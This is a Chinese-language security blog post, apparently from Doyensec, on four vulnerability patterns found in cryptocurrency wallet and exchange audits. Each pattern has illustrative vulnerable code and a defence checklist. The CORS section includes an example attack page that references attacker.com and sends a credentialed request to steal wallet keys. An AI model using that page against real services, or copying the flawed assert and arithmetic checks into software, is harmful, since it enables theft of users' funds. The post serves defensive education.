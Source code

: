 ```yaml
---
date: 2025-08-06T14:30:16+08:00
title: 加密货币钱包、系统及基础设施审计经验分享
tags: [加密货币安全, 审计漏洞, CORS配置, 编译器优化, 算术错误]
authors: qife
description: 本文分享了在审计加密货币钱包、交易所及基础设施过程中发现的四类高危漏洞，包括CORS配置错误、编译器优化导致的断言失效、算术运算漏洞以及密码重置令牌通过Referer泄露问题。
---
```


在过去的三年中，Doyensec为全球知名加密货币项目提供安全测试服务，审计范围涵盖桌面/移动钱包、交易所Web界面、托管系统及核心基础设施组件。我们既见证了优秀实践，也发现了诸多设计与实现漏洞。失败是最好的安全教材，本文将通过四个典型案例揭示看似简单却危害巨大的漏洞模式。

### 1) CORS配置错误
跨域资源共享(CORS)机制用于放宽同源策略，但其错误配置会导致严重安全问题。例如当服务端返回以下头信息时：
```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
攻击者可通过特制页面窃取用户密钥：
```html
<iframe sandbox="allow-scripts" src="https://attacker.com/corsbug" />
<script>
var req = new XMLHttpRequest();
req.open('GET', 'https://bitcoinbank/keys', true);
req.withCredentials = true;
req.send();
</script>
```

**防御清单：**
- 禁止将`Access-Control-Allow-Origin`设为`null`
- 避免从用户可控变量生成CORS头
- 禁止动态复制`Origin`头值

### 2) 断言与编译器陷阱
某些语言的编译器优化会产生意外行为。例如Python的assert语句在生产环境(`.pyo`文件)会被完全移除：
```python
assert all([x.deposit_address == address for x in deposits])  # 生产环境失效
```
Swift中若使用`assertionFailure`进行密码校验，在发布版本(`-O`优化)时检查也会被移除：
```swift
if (password != "mysecretpw") {
   assertionFailure("Password not correct!")  // 发布版本跳过校验
}
```

**防御清单：**
- 禁止使用assert进行安全控制
- 深入研究所用语言的编译器特性

### 3) 算术运算漏洞
金融系统中数值处理不当可能引发致命错误。例如允许负数的提现操作：
```python
if data["wallet"].balance < data["amount"]:  # 未校验amount>0
    error_dict["wallet_balance"] = ("Withdrawal exceeds available balance")
data["wallet"].balance = 200 - (-100)  # 余额反而增加300
```
有符号整数溢出同样危险：
```c
signed short int bank_account = -30000;
bank_account -= 2769;  // 溢出后余额变为32767
```

**防御清单：**
- 严格校验交易数值范围
- 规范有符号/无符号类型使用

### 4) Referer头泄露密码重置令牌
密码重置链接中的令牌常通过Referer头泄露给第三方域名：
```http
GET /libs/jquery.js HTTP/1.1
Host: 3rdpartyexampledomain.com
Referer: https://example.com/passwordreset/2a8c5d7e-5c2c-4ea6-9894-b18436ea5320
```

**防御方案：**
- 使用`<meta name="referrer" content="no-referrer" />`
- 设置`Referrer-Policy`响应头
- 通过空白中转页跳转

如需平台安全评估服务，请联系info@doyensec.com！